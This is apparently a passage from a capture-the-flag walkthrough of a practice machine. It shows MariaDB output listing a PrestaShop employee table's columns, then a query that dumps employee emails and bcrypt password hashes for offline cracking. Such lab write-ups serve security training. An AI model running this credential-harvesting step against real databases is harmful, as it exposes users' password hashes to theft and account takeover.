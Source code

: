 ```bash
| email                    | varchar(255)        | NO   | MUL | NULL                |                |
| passwd                   | varchar(255)        | NO   |     | NULL                |                |
| last_passwd_gen          | timestamp           | NO   |     | current_timestamp() |                |
| stats_date_from          | date                | YES  |     | NULL                |                |
| stats_date_to            | date                | YES  |     | NULL                |                |
| stats_compare_from       | date                | YES  |     | NULL                |                |
| stats_compare_to         | date                | YES  |     | NULL                |                |
| stats_compare_option     | int(1) unsigned     | NO   |     | 1                   |                |
| preselect_date_range     | varchar(32)         | YES  |     | NULL                |                |
| bo_color                 | varchar(32)         | YES  |     | NULL                |                |
| bo_theme                 | varchar(32)         | YES  |     | NULL                |                |
| bo_css                   | varchar(64)         | YES  |     | NULL                |                |
| default_tab              | int(10) unsigned    | NO   |     | 0                   |                |
| bo_width                 | int(10) unsigned    | NO   |     | 0                   |                |
| bo_menu                  | tinyint(1)          | NO   |     | 1                   |                |
| active                   | tinyint(1) unsigned | NO   |     | 0                   |                |
| optin                    | tinyint(1) unsigned | YES  |     | NULL                |                |
| id_last_order            | int(10) unsigned    | NO   |     | 0                   |                |
| id_last_customer_message | int(10) unsigned    | NO   |     | 0                   |                |
| id_last_customer         | int(10) unsigned    | NO   |     | 0                   |                |
| last_connection_date     | date                | YES  |     | NULL                |                |
| reset_password_token     | varchar(40)         | YES  |     | NULL                |                |
| reset_password_validity  | datetime            | YES  |     | NULL                |                |
| has_enabled_gravatar     | tinyint(3) unsigned | NO   |     | 0                   |                |
+--------------------------+---------------------+------+-----+---------------------+----------------+
29 rows in set (0.001 sec)

MariaDB [prestashop]> select email,passwd from ps_employee;
+---------------------+--------------------------------------------------------------+
| email               | passwd                                                       |
+---------------------+--------------------------------------------------------------+
| admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C |
| james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm |
+---------------------+--------------------------------------------------------------+
```
